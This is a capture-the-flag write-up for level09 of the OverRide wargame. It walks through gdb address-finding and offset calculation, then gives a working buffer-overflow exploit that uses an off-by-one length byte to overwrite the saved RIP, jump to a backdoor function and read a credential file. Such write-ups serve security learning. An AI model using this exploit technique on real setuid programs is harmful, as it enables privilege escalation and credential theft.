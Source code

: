 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source`


### step 2: Code Analysis

- the `main` function calls a `handle_msg`function
- the `handle_msg` function has a buffer `ref [140]` that is passed to two functions `set_username` and `set_msg`
- finally we have a `secret_backdoor` function which prompts for and input which is then given has an argument of a `system` call. We want to modifiy the rip (not eip because the binary is in 64-bits) of `handle_msg` function to point to the `secret_backdoor` function and then cat the .pass file with the call of the function `system`

### step 3: Find the adresses

1) `secret_backdoor` function address
```
gdb level09
info functions
```
- `secret_backdoor` function address : `0x000055555555488c`

2) rip address of `handle_msg` function

```
gdb level09
b handle_msg
 r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```
- rip of `handle_msg` function : `0x7fffffffe5c8`

3) `ref` start of buffer address

Set breakpoint before the call of set_msg or set_username in handle_msg because the ref is passed as an argument to these functions so we can find the address in rax

```
gdb level09
start
disas handle_msg
b *0x0000555555554910
c
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```
- `ref`begin address :`0x7fffffffe500`

### Step 4 : Find the offset between ref and rip

- You can find a schema at `/level09/Ressources/Schema.png` which can help to understand the offsets

- the offset between ref and rip address is :
`0x7fffffffe5c8 - 0x7fffffffe500 = 200`

- When analysing decompiled code :
  `set_username` function is writing first input from `ref + 140 to ref + 181`
  `set_msg` function is writing second input from `ref to ref + 180`


### Step 5 : Exploit 

- To overwrite the rip of the `handle_msg` function we need to at `ref + 200`
- How to write more than 180 chars :

```c
strncpy(ref,(char *)buffer,(long)*(int *)(ref + 180));
```

The size of `strncpy` is calculated at the address `ref + 180` : We can input a tricky value with the char `\xff` that is evaluated as 255 -> The `strncpy` will copy up to 255 of our input and we will reach the 200 bytes offset of the `RIP`  

Now we gather all the informations we have to create the exploit :

0x000055555555488c to little endian : \x8c\x48\x55\x55\x55\x55\x00\x00

final string : 

```
(python -c 'print("a" * 40 + "\xFF")' ; python -c 'print(200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo 'cat /home/users/end/.pass') | ./level09
```
And we get the flag !
